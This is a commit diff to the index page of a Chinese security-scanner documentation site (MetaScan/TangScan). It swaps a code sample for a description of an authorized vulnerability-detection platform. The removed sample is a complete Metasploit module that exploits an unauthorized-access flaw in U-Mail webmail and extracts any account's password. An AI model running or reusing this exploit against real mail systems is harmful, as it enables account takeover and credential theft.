

Before and after one commit to Hoyann/MetaScan, a Sphinx documentation site: the page built from docs/index.rst, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Sphinx 7.4.7, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Update index.rst

```diff
--- a/docs/index.rst
+++ b/docs/index.rst
@@ -1,76 +1,16 @@
 欢迎使用MetaScan开发文档
 ========================
 
-快速入门
-========
+TangScan (唐朝扫描器)是一款在线安全漏洞检测服务, 一个由众多安全研究人员维护的企业在线安全体检平台。
 
-示例代码如下::
+安全研究人员可以根据自己的经验编写合适的安全扫描策略, 按照我们支持的开发标准编写出对应的安全检测插件, 我们鼓励安全研究人员之间分享漏洞分析, 代码开发的相关技术以获得更好的技术提升, 同时我们将根据插件扫描的结果对安全研究人员进行分成奖励。
 
-    #encoding:utf-8
-    require 'msf/core'
-    class Metasploit3 < Msf::Exploit::Remote
-      Rank = ExcellentRanking
-      include Msf::Exploit::Remote::HttpClient
+企业可以付费使用 TangScan 对自己的企业网络进行授权的安全漏洞检测以发现潜藏在网络里的重要安全问题, 我们将对企业的身份进行严格的限制同时企业需要为漏洞扫描的结果进行付费以支持我们的持续运营。
 
-      def initialize(info={})
-        super(update_info(info,
-            'Name'           => "U-Mail System Unauthorized Access Vulnerability",
-            'Description'    => %q{
-              U-Mail邮件系统权限设置问题导致任意用户密码可越权查看，当updata参数的值为s，只需将email参数的值指定为一个已存在的邮箱账号即可查看任意账户密码。
-            },
-            'License'        => MSF_LICENSE,
-            'Author'         =>
-              [
-              'Rain'    #Metasploit-CNNS
-            ],
-            'Platform'        => [ 'php' ],
-            'Arch'           => ARCH_PHP,
-            'Targets'        =>[[ 'U-Mail', { }]],
-            'Privileged'     => false,
-            'DisclosureDate' => "Apr 11 2011",
-            'DefaultTarget'  => 0))
-        register_options(
-          [
-            OptString.new('RHOST', [true, 'The DOMAIN', '']),
-            OptString.new('RPORT', [true, 'The port', '80']),
-            OptString.new('TARGETURI', [true, 'The base path to U-Mail', '/webmail/']),
-            OptString.new('EMAIL', [true, 'The email to U-Mail', '']),
-          ], self.class)
-      end
-
-      def exploit
-        begin
-    	    res = send_request_cgi( {
-    	        'method' => "GET",
-    	        'uri'    => normalize_uri(datastore['TARGETURI']) + "/getPass.php?update=s&email=#{datastore['EMAIL']}"
-    	      }, 20)
-        rescue ::Rex::ConnectionRefused, ::Rex::HostUnreachable, ::Rex::ConnectionTimeout
-        rescue ::Timeout::Error, ::Errno::EPIPE
-        end
-          body_data = res.body.force_encoding('UTF-8')
-          if body_data =~ /你的密码是/
-            data = body_data.scan(/你的密码是\<\/p\>\<p\>\<center\>\<font color=red\>(.*?)\<\/font\>/)
-            if data and data.first and data.first.first
-              print_good("---------账号--------\n邮箱 = #{datastore['EMAIL']}, 密码 = #{data.first.first}", "good")
-            else
-              print_error("漏洞利用失败！")
-            end
-          else
-            print_error("漏洞利用失败！")
-          end
-      end
-    end
-
+目录
+====
 
 .. toctree::
    :maxdepth: 2
 
    introduce
-
-
-Indices and tables
-==================
-
-* :ref:`genindex`
-* :ref:`modindex`
-* :ref:`search`
```
